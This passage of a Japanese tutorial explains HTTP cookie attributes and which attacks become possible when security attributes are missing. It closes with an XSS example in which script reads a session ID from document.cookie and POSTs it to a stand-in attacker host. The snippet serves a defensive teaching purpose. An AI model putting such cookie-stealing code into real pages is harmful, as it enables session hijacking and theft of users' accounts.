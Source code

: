### 属性の具体例

```http
Set-Cookie: sessionId=abc123; Domain=.example.com; Path=/admin; Secure; HttpOnly; SameSite=Strict; Max-Age=3600
```

この例では：
- `sessionId=abc123`: 名前と値（自由に設定可能）
- `Domain=.example.com`: example.comとそのサブドメインで有効
- `Path=/admin`: /adminパス以下でのみ送信
- `Secure`: HTTPS通信でのみ送信
- `HttpOnly`: JavaScriptからアクセス不可
- `SameSite=Strict`: 同一サイトのリクエストでのみ送信
- `Max-Age=3600`: 3600秒（1時間）後に有効期限切れ

### 属性の優先順位

同じcookieに対して`Expires`と`Max-Age`が両方指定された場合、`Max-Age`が優先されます。また、`Domain`が指定されていない場合は、cookieを設定したドメインでのみ有効になります。

```javascript
// ExpiresとMax-Ageが両方指定された場合、Max-Ageが優先される
document.cookie = "test=value; expires=Thu, 01 Jan 2025 00:00:00 UTC; max-age=3600";
// この場合、3600秒後（1時間後）に期限切れ
```

## セキュリティ属性と攻撃パターン

各セキュリティ属性を設定しないと、以下のような攻撃が考えられます。実際にどのような攻撃が起こるのか、具体的に見てみましょう。

### 1. HttpOnly属性未設定時のXSS攻撃

`HttpOnly`属性が設定されていない場合、JavaScriptからcookieにアクセスできるため、XSS攻撃によってセッションIDが盗まれる可能性があります。

```mermaid
graph TD
    A[悪意のあるJavaScript] --> B[document.cookie で<br/>セッションIDを取得]
    B --> C[攻撃者のサーバーに送信]
    C --> D[セッションハイジャック]
    
    style A fill:#ff9999
    style D fill:#ff9999
```

```javascript
// ❌ 危険な例：JavaScriptからアクセス可能
document.cookie = "sessionId=abc123";

// 攻撃者のスクリプトが実行されると...
const stolenSession = document.cookie.match(/sessionId=([^;]+)/)[1];
fetch('https://attacker.com/steal', { 
    method: 'POST', 
    body: stolenSession 
});
```
